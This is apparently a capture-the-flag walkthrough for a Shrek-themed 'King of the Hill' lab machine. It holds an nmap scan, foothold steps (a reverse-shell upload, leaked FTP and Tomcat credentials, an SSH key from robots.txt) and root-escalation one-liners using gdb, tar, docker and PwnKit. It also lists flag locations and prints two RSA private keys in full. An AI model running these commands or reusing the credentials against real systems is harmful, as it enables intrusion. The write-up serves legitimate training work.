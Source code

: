 ```yaml
---
topic: koth
author: trap
---
```


<p></p>

## Nmap:

```
# Nmap 7.92 scan initiated Thu Feb 23 22:53:16 2023 as: nmap -p21,22,80,9999,65432 -sV -sC -T4 -Pn 

Nmap scan report for 10.10.145.145
Host is up (0.25s latency).

PORT      STATE SERVICE VERSION
21/tcp    open  ftp     vsftpd 3.0.2
22/tcp    open  ssh     OpenSSH 7.4 (protocol 2.0)
| ssh-hostkey: 
|   2048 19:cd:2a:1d:a1:fd:2b:82:c2:de:27:00:90:1b:52:a7 (RSA)
|   256 dd:99:85:18:26:9c:3c:7e:87:32:df:2b:43:18:b8:b8 (ECDSA)
|_  256 a2:35:a3:7b:19:af:58:31:fd:6c:40:55:59:4d:7d:52 (ED25519)
80/tcp    open  http    Apache httpd 2.4.6 ((CentOS) PHP/7.1.33)
| http-robots.txt: 1 disallowed entry 
|_/Cpxtpt2hWCee9VFa.txt
| http-methods: 
|_  Potentially risky methods: TRACE
|_http-title: Site doesn't have a title (text/html; charset=UTF-8).
|_http-server-header: Apache/2.4.6 (CentOS) PHP/7.1.33
|3306/tcp  open  mysql   MySQL (unauthorized)
|8009/tcp  open  ajp13   Apache Jserv (Protocol v1.3)
|_ajp-methods: Failed to get a valid response for the OPTION request
|8080/tcp  open  http    Apache Tomcat/Coyote JSP engine 1.1
|_http-server-header: Apache-Coyote/1.1
|_http-title: Apache Tomcat/7.0.88
|_http-favicon: Apache Tomcat
9999/tcp  open  abyss?
| fingerprint-strings: 
|   FourOhFourRequest: 
|     HTTP/1.0 200 OK
|     Accept-Ranges: bytes
|     Content-Length: 0
|     Content-Type: text/plain; charset=utf-8
|     Last-Modified: Thu, 12 Mar 2020 08:24:13 GMT
|     Date: Fri, 24 Feb 2023 03:53:29 GMT
|   GenericLines, Help, Kerberos, LPDString, RTSPRequest, SSLSessionReq, TLSSessionReq, TerminalServerCookie: 
|     HTTP/1.1 400 Bad Request
|     Content-Type: text/plain; charset=utf-8
|     Connection: close
|     Request
|   GetRequest, HTTPOptions: 
|     HTTP/1.0 200 OK
|     Accept-Ranges: bytes
|     Content-Length: 0
|     Content-Type: text/plain; charset=utf-8
|     Last-Modified: Thu, 12 Mar 2020 08:24:13 GMT
|_    Date: Fri, 24 Feb 2023 03:53:28 GMT
65432/tcp open  unknown
...

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Thu Feb 23 22:55:03 2023 -- 1 IP address (1 host up) scanned in 106.89 seconds
```

## Footholds:
### Shrek

1. Go to /robots.txt on port 80 to get shreks id_rsa file. Or look below...
2. Copy the key, paste it in a new file and save it as `id_shrek`
3. `chmod 600 id_shrek` to give your new file the necessary permissions.
4. Login via ssh: `ssh -i id_shrek shrek@$RHOST` where $RHOST is the IP of the machine.


### Donkey

1. Port `80` there's an `/upload` page.
2. upload a rev shell called `rev.gif87a.php`
3. start netcat listner `nc -nlvp <port>`
3. `upload/uploads/rev.gif87a.php` will trigger rev shell.

### Puss

1. Port `65432` can be accessed using netcat `nc $RHOST 65432`

### Ftp

1. `curl -d "search=f" http://$RHOST/api/search.php` to reveal ftp credentials.  
2. Login to ftp `ftp $RHOST` and enter creds `ftp:EkRYje58bhFpg2uW`
3. `ls -la` to find message.txt
4. `Get message.txt` 
5. To exit ftp type `bye`
6. `cat message.txt` for Donkey's creds. `donkey:J5rURvCa8DyTg3vR`

### Tomcat

1. Port `8080` has a Tomcat page that can be logged in with `admin:tomcat`

## Privesc:
### pkexec

1. Quickest and easiest way to root but not the intended path for learning. [`PwnKit`][pwnkit]

### gdb

1. All users can escalate with this.

`gdb -nx -ex 'python import os; os.setuid(0); os.execl("/bin/sh", "sh", "-p")' -ex quit`

### Shrek

1. Can add a rev shell into `/home/shrek/check.sh` that can be used to escalate since root runs this script every minute

### Donkey

1. Donkey can run tar as root. `sudo tar -cf /dev/null /dev/null --checkpoint=1 --checkpoint-action=exec=/bin/sh`

### Puss

1. Puss is a member of the docker group `docker run -v /:/mnt --rm -it alpine chroot /mnt sh`


## 8 flags


- /home/shrek/flag.txt `30 pts`
- /home/donkey/flag.txt `30 pts`
- /home/puss/flag.txt `30 pts`
- /srv/web/flag.txt `15 pts`
- /var/lib/mysql/cms `strings flag.idb` `30 pts`
- source code of index.html `encoded` `25 pts`
- /root/root.txt `70 pts`
- `/var/lib/docker/overlay2/8039e912cd29e964102163c37a1f05795ea99e7da6c1a800dd9749417d88c680/diff/root/flag.txt``20 pts`

## ssh keys

### shrek

```
-----BEGIN RSA PRIVATE KEY-----
MIIEogIBAAKCAQEAsKHyvIOqmETYwUvLDAWg4ZXHb/oTgk7A4vkUY1AZC0S6fzNE
JmewL2ZJ6ioyCXhFmvlA7GC9iMJp13L5a6qeRiQEVwp6M5AYYsm/fTWXZuA2Qf4z
8o+cnnD+nswE9iLe5xPl9NvvyLANWNkn6cHkEOfQ1HYFMFP+85rmJ2o1upHkgcUI
ONDAnRigLz2IwJHeZAvllB5cszvmrLmgJWQg2DIvL/2s+J//rSEKyISmGVBxDdRm
T5ogSbSeJ9e+CfHtfOnUShWVaa2xIO49sKtu+s5LAgURtyX0MiB88NfXcUWC7uO0
Z1hd/W/rzlzKhvYlKPZON+J9ViJLNg36HqoLcwIDAQABAoIBABaM5n+Y07vS9lVf
RtIHGe4TAD5UkA8P3OJdaHPxcvEUWjcJJYc9r6mthnxF3NOGrmRFtDs5cpk2MOsX
u646PzC3QnKWXNmeaO6b0T28DNNOhr7QJHOwUA+OX4OIio2eEBUyXiZvueJGT73r
I4Rdg6+A2RF269yqrJ8PRJj9n1RtO4FPLsQ/5d6qxaHp543BMVFqYEWvrsdNU2Jl
VUAB652BcXpBuJALUV0iBsDxbqIKFl5wIsrTNWh+hkUTwo9HroQEVd4svCN+Jr5B
Npr81WG2jbKqOx2kJVFW/yCivmr/f/XokyOLBi4N/5Wqq+JuHD0zSPTtY5K04SUd
63TWQ5kCgYEA32IwfmDwGZBhqs3+QAH7y46ByIOa632DnZnFu2IqKySpTDk6chmh
ONSfc4coKwRq5T0zofHIKLYwO8vVpJq4iQ31r+oe7fAHh08w/mBC3ciCSi6EQdm5
RMxW0i4usAuneJ04rVmWWHepADB0BqYiByWtWFYAY9Kpks/ks9yWHn8CgYEAymxD
q3xvaWFycawJ+I/P5gW8+Wr1L3VrGbBRj1uPhNF0yQcA03ZjyyViDKeT/uBfCCxX
LPoLmoLYGmisl/MGq3T0g0TtrgvkFU6qZ3sjYJ+O/yrT06HYapJLv6Ns/+98uNvi
3VEQodZNII8P6WLk3RPp1NzDVcFDLmD9C40UAQ0CgYBokPgOUKZT8Sgm4mJ/5+3M
LZtHF4PvdEOmBJNw0dTXeUPesHNRcfnsNmulksEU0e6P/IQs7Jc7p30QoKwTb3Gu
hmBZxohP7So5BrLygHEMjI2g2AGFKbv2HokNvhyQwAPXDBG549Pi+bCcrBHEAwSu
v85TKX7pO3WxiauPHlUPVQKBgFmIF0ozKKgIpPDoMiTRnxfTc+kxyK6sFanwFbL9
wXXymuALi+78D1mb+Ek2mbwDC6V2zzwigJ1fwCu2Hpi6sjmF6lxhUWtI8SIHgFFy
4ovrJvlvvO9/R1SjzoM9yolNKPIut6JCJ8QdIFIFVPlad3XdR/CRkIhOieNqnKHO
TYnFAoGAbRrJYVZaJhVzgg7H22UM+sAuL6TR6hDLqD2wA1vnQvGk8qh95Mg9+M/X
6Zmia1R6Wfm2gIGirxK6s+XOpfqKncFmdjEqO+PHr4vaKSONKB0GzLI7ZlOPPU5V
Q2FZnCyRqaHlYUKWwZBt2UYbC46sfCWapormgwo3xA8Ix/jrBBI=
-----END RSA PRIVATE KEY-----
```

### puss

```
-----BEGIN RSA PRIVATE KEY-----
MIIEowIBAAKCAQEA3rYTsWn7Rc0ShhrLf5SM5lDLQFw6tuAmckGG7q7tsgDxzIBE
IpVkn8Y4XX8ZPnOOrzzw9NYS+jUNb0+3QxpRv576QsOmlkSoSLcxNfOLPKpqsAAJ
uJ7Bl8LhVfh23aSL5z2TYeeTSrPq5rxcWQE/hmq0kF8WChppEXaxhHjB7zhlj8in
XiOUtPxFFe9xgm6UQeSdV8M8SS6dG5EN1NUTf5I1EmzwK+RWzVp52GOlonyDr0gU
FueAvjvi9ZuEg6tcOjgxhFZOjf9HLUW+1e8hW9GfEqTya+nisTfguHoG+GvpXB0C
LqpY91hQtr1J0i29mdLGAJ048/amczjMuJmCNQIDAQABAoIBAElF6nDCh7NNZzzL
8AwHmdvk1RpVvdORJ9ULjhNVZkrcWLGJueEO+c4/bygDuxB7AITTLgu/qvq7HbJz
rb3cGO1MptX0fQiPijZyXzR67mKFRxikyo39XYBK08xvNNxzWLw53BWoFSPM0goc
Ct4VtQrKbKHbRusICW1/eaQ1/shvTnsePTpWJ7MRUNIk7nCMxeq/t7pw7I9ju3mI
gGM+uz2ZJzZOqJx/x0ogQDPJoIEd2Q7Z9twQ7+S4+rKQPz22mW+qYDq11OWVb0Ef
LLRZ+ue5asHZ2HzKWLbEy3WCSPQNVk4cYm4CyvDSvzV9GCukUVTypKaeXNrK4qJ8
TnVY78ECgYEA9drZ5IF0J2qfMgra5/TRpI+aTVO/NXWhxaRmoyh6Af60gfNLnWKp
J+qJFqZuf3Qwtencv3ocSraVeh0r3aM+LDUYD/LSOnUaj1iY2ckCArZ8KOXGH6i7
AdUqQZzqoJuUb3ztg1Nhu2iWs/3ezz6l1yOvCP9m5020RAqX3DSJkskCgYEA5+a9
+948bVjiPYfFSq5qNd647+RhBpvjJW482BhujsHB+qY+VFbqc3bOIWVeXKTmjQ5y
vhbrUL9h1ulCriSsRAK0qQwW4LH6AgFJvFUm4KZf849iG6dLyFE4H4sYgDGZBW44
WJ8lRVkGJCnexI73R1oMizILasg9/5BR50Jdng0CgYEAtUop/ivPQPmIZlhGz2Bh
7pzNxVOJ3ZveLGVsIcfJIAt3g5OqIGYOIhb5+6/CL024VYwbcT5T+mvkkWVNYWPs
hqCoG6qMhvqvGSDVpVJpnyJ9L5Mvo0zCiTlsrXFOOhw/Om6+nWYw3QbkidkcIWoq
1BfGDDZ45PsRgFLnZEOBZrECgYAK5DVsDOX9pL0LcsL7XPG0Ef/RlIJSEyQ579F/
vLYEkmkP4pruzx43yg6oVuB1rXD+kv0knGL06egoddAh6asFjrL5dY3lg7ZgPbs+
0yj+SBIdmFBdSCAxCk9+e8Ps0WeEb8bJsr/HYAT/0c+an7RRb5NDPlh27WysAhU2
rVFESQKBgGIQ4dIwhiaX7KVyG1QleWC8tJw6sMbzr3R1VKrKAV7NHOcBVfms9/bP
FhZrnDGHKkUAWZ6klGaTHcvq8fK6bas5LKkrNo5DPaiQFbD7x5Lyx4PdPupnxi91
k0hrZqy9vjpxtyIj8tfb3ccPeBiRYDwDyiiPmccOBRHJDwD+S89z
-----END RSA PRIVATE KEY-----
```

[pwnkit]: https://github.com/ly4k/PwnKit
